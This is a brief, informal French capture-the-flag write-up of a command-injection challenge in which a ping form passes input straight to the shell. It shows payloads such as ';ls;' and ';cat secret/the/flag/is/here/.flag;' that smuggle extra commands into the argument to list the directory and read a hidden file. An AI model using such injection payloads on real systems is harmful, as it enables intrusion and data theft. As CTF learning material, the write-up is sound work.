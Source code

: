 # Writeup
Pas trop détaillé psq nik la poliss

## Recon
On comprend que le serveur ping ce que l'on écrit dans l'input, on voit qu'il n'y a pas de filtre en place.
On se dit que le serveur fait un truc du genre :
```bash
ping -c 1 $ip
```

## Exploit
On peut essayer quelques payloads à la zeub, on a par exemple :
```bash
;ls;
```

Qui nous liste le répertoire courant de l'application.
On trouve le dossier `secret`, on continue comme ça : `/secret/the/flag/is/here/` et on trouve le fichier `.flag`.

## Résumé
```bash
;cat secret/the/flag/is/here/.flag;
```
